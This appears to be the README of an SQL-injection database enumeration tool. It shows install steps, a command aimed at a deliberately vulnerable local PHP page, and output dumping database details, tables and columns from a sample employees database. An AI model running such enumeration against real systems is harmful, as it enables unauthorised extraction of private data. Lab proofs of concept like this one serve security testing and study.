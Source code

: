 
## GETTING STARTED
**Install all requirements**

    $> pip install -r requirements.txt

**USAGE**

An example of a vulnerable php code is provided in the file "vuln.php" for a proof of concept. To test, setup an Apache server with PHP and MySQL database.

The php file connects to a database which has the schema available [here](https://dev.mysql.com/doc/employee/en/employees-installation.html)

    $> python3 mysql_enum.py -u "http://127.0.0.1/vuln.php" -d "vulnfield:" -v "vulnfield" -t "" -r get

     ______  _     _  _    _____  _       _______ ______  _     _ ______
    |  ___ \| |   | || |  / ___ \| |     (_______)  ___ \| |   | |  ___ \
    | | _ | | |___| | \ \| |   | | |      _____  | |   | | |   | | | _ | |
    | || || |\_____/   \ \ |   |_| |     |  ___) | |   | | |   | | || || |
    | || || |  ___ _____) ) \____| |_____| |_____| |   | | |___| | || || |
    |_||_||_| (___|______/ \_____)_______)_______)_|   |_|\______|_||_||_|
                                                                    @pyrod


    ENUMERATING DATABASE ...

    Enumerating DB Info
    Retreiving 'dbname': 100%|██████████████████████████████████████████████████████████████████| 4/4 [00:00<00:00, 118.55it/s]

    '8' tables found, Enumerating columns ...

    Table '8': 'titles': 100%|███████████████████████████████████████████████████████████████████| 8/8 [00:25<00:00,  4.80s/it]
    +-------------------+--------------------------------+-------------------------------------+-----------+<00:00, 150.42it/s]
    | DB Name: sampledb | DB User: testuser@127.0.0.1 | DB Version: 5.4.4 | Tables: 8 |
    +-------------------+--------------------------------+-------------------------------------+-----------+
    +-------------------+--------------------------------+-------------------------------------+-----------+

    ENUMERATED TABLES FOR: http://127.0.0.1/vuln.php

    +---+------------------------------+------------+--------------+
    | 1 | Table Name: current_dept_emp | Columns: 4 | Rows: 300024 |
    +---+------------------------------+------------+--------------+
    +---+------------------------------+------------+--------------+
    +-----+-----------+
    | No. | Columns   |
    +-----+-----------+
    | 1   | emp_no    |
    | 2   | dept_no   |
    | 3   | from_date |
    | 4   | to_date   |
    +-----+-----------+
    +---+-----------------------+------------+--------------+
    | 2 | Table Name: employees | Columns: 6 | Rows: 300029 |
    +---+-----------------------+------------+--------------+